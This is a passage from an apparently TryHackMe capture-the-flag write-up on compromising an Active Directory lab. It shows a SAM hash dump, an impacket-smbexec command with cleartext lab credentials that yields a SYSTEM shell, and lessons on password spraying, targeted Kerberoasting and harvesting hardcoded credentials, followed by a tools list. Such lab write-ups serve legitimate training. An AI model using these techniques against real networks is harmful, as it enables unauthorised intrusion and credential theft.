

```
[*] Dumping local SAM hashes
Administrator:500:aad3...ee:5565d2f8a32fd35d1c8ee5a8ad198823
Guest:501:aad3...ee:31d6cfe0d16ae931b73c59d7e0c089c0
...
[*] $MACHINE.ACC
THM\AD$:aes256-cts-hmac-sha1-96:d1c318b8...
```

Only local SAM and machine account keys no domain hashes. DCSync via secretsdump on the secondary domain only dumps that domain's local data, not thm.local's NTDS.dit. Not the path forward.

### smbexec > NT AUTHORITY\SYSTEM > Flag

We have local admin on the DC. smbexec creates a service under `NT AUTHORITY\SYSTEM`:

```bash
impacket-smbexec -dc-ip 10.48.131.138 \
  'ad2.thm.local/SANFORD_DAUGHERTY:RESET_ASAP123@ad2.thm.local'
```

```
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt.txt
THM{INFILTRATION_COMPLETE_OUR_COMMAND_OVER_NETWORK_ASSERTS}
```

---

## Lessons Learned

**Password reuse is the gift that keeps giving.** The entire lateral movement chain from CODY_ROY to ZACHARY_HUNT came from spraying one cracked password against all domain users. CODY_ROY and ZACHARY_HUNT share `MKO)mko0`. Once you crack a TGS hash, always spray it.

**Targeted Kerberoasting is a clean GenericWrite abuse.** Standard Kerberoasting requires the target to already have a SPN. GenericWrite lets you *set* one. `targetedKerberoast.py` automates the whole flow set SPN, request TGS, remove SPN in one command. If BloodHound shows GenericWrite on a user, Targeted Kerberoast is often the cleanest next step.

**Always spray with every discovered password.** Each time a new credential is obtained (whether cracked or found in plaintext), immediately spray it against the full user list with `--continue-on-success`. The syncer script password `RESET_ASAP123` probably also reuses across accounts this was a missed spray opportunity.

**Scripts in C:\Scripts are goldmines.** Automation scripts left in accessible directories are one of the most reliable paths to escalation in AD environments. `syncer.ps1` had domain admin credentials hardcoded in plaintext. Any file with "sync", "backup", "deploy", or "setup" in the name is worth reading in full.

**GPP privileges output contains RDP access hints.** `SeRemoteInteractiveLogonRight: Domain Users` was in the gpp_privileges output from early in the box. Catching it earlier would have saved the certipy rabbit hole entirely any domain user credential means RDP access.

**Certipy without template enumeration is guesswork.** Trying `certipy-ad req` with `-template User` and an arbitrary UPN is a shot in the dark without first running `certipy-ad find` to confirm ESC1 applies. Without knowing if the template has `ENROLLEE_SUPPLIES_SUBJECT` set, the attempt is based on assumption. Always enumerate ADCS properly before attempting certificate abuse.

**Write-privileged groups that lead nowhere still cost time.** JERRI_LANCASTER's `WriteOwner` on `READER ADMINS` looked promising but the group itself had zero useful ACEs. BloodHound's Affected Objects panel and privilege counts (Local Admin: 0, Execution: 0) are key indicators of whether a group path is worth pursuing.

---

## Tools & References

| Tool | Purpose |
|---|---|
| **rustscan + nmap** | Port scanning |
| **nxc (NetExec)** | SMB auth, share enum, RID brute, password spray, GPP modules, spider_plus |
| **impacket-lookupsid** | RID brute for user enumeration |
| **impacket-GetNPUsers** | AS-REP roasting |
| **impacket-GetUserSPNs** | Kerberoasting |
| **targetedKerberoast.py** | Targeted Kerberoasting via GenericWrite (ShutdownRepo) |
| **hashcat** | Cracking TGS-REP (mode 13100) hashes |
| **bloodyad** | BloodHound data collection |
| **bloodhound** | AD attack path analysis |
| **ldapsearch** | Manual LDAP group verification |
| **certipy-ad** | ADCS certificate requests (dead end attempt) |
| **xfreerdp** | RDP client for JERRI_LANCASTER session |
| **impacket-secretsdump** | Local SAM dump on ad2.thm.local |
| **impacket-smbexec** | SYSTEM shell via SMB admin on ad2.thm.local |

**References:**
- [Targeted Kerberoasting ShutdownRepo](https://github.com/ShutdownRepo/targetedKerberoast)
- [BloodHound CE](https://github.com/SpecterOps/BloodHound)
- [Targeted Kerberoasting Documentation](https://www.thehacker.recipes/ad/movement/dacl/targeted-kerberoasting)
- [AsRepRoasting Documentation](https://www.thehacker.recipes/ad/movement/kerberos/roasting/asreproast)
- [Kerberoasting Documentation](https://www.thehacker.recipes/ad/movement/kerberos/roasting/kerberoast)